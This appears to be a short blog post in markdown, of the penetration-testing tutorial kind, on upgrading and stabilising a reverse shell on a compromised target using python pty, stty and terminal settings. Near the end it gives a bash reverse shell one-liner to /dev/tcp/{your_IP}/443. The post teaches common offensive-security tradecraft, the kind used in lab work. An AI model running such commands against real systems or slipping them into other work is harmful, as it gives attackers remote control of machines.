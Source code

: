 ```yaml
---
layout: single
title:  "Upgrading your reverse shell"
author_profile: true
toc: true
toc_label: "Table of Contents"
toc_icon: "fas fa-book-open"
toc_sticky: true
header:
    image: https://images.unsplash.com/photo-1472152083436-a6eede6efad9?q=80&w=2669&auto=format&fit=crop&ixlib=rb-4.0.3&ixid=M3wxMjA3fDB8MHxwaG90by1wYWdlfHx8fGVufDB8fHx8fA%3D%3D
    caption: "Photo by [**Biel Morro**](https://unsplash.com/@bielmorro?utm_content=creditCopyText&utm_medium=referral&utm_source=unsplash) on [**Unsplash**](https://unsplash.com/photos/brown-conch-shell-on-right-human-palm-_l8ZdgJ9m7w?utm_content=creditCopyText&utm_medium=referral&utm_source=unsplash)"
    teaser: https://images.unsplash.com/photo-1472152083436-a6eede6efad9?q=80&w=2669&auto=format&fit=crop&ixlib=rb-4.0.3&ixid=M3wxMjA3fDB8MHxwaG90by1wYWdlfHx8fGVufDB8fHx8fA%3D%3D
---
```


> After we have gotten our reverse shell, it will have limitations such as no auto-completions and messy file listings. Here is how we can make our shell better inside our target's system:

Upgrading and stabilizing your shell enables you to type in your commands better. There are several ways to upgrade your shell once you are in a target machine.

## First way

Assuming you are running bash, in your reverse shell:

```
python3 -c "import pty; pty.spawn('/bin/bash')"
```

Press on your keyboard: `Ctrl + Z`<br>
Press on your keyboard: `Enter`

On your local host:

```
stty raw -echo
fg
```
Press on your keyboard: `Enter` (twice)

Notice that our shell does not cover our entire terminal. To fix this, we shall open another terminal tab and input the following commands:
```
echo $TERM
```
Output: `xterm-256color`
```
stty size
```
Output: `70 255`

In our reverse shell:
```
export TERM=xterm-256color
stty rows 70 columns 255
```

Our reverse shell should now utilize the terminal's full features!

## Second way
Check the version of python the target system is running in using:
`which python` or `which python3`

Next,

```
python3 -c 'import pty;pty.spawn("/bin/bash")'  //Upgrade to tty
Ctrl + Z                                        //Background the process
stty raw -echo
fg + Enter
```

Subsequently, turn your unstable shell into a stable one via:
```
bash -c "bash -i >& /dev/tcp/{your_IP}/443 0>&1"
```
\
\
Thank you for reading!
